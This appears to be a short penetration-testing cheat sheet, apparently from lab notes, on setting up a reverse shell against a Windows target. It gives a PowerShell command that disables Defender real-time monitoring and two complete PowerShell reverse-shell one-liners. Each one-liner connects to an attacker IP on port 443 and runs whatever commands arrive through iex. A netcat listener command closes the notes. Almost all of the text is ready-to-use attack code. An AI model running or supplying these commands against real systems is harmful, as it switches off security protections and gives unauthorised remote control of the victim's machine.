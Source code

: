 With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

**Disable AV on Windows**
```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```


On a Windows target(client), execute the below
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.249',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.129.201.51',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


On your attacker (server)
```shell-session
sudo nc -lvnp 443
```

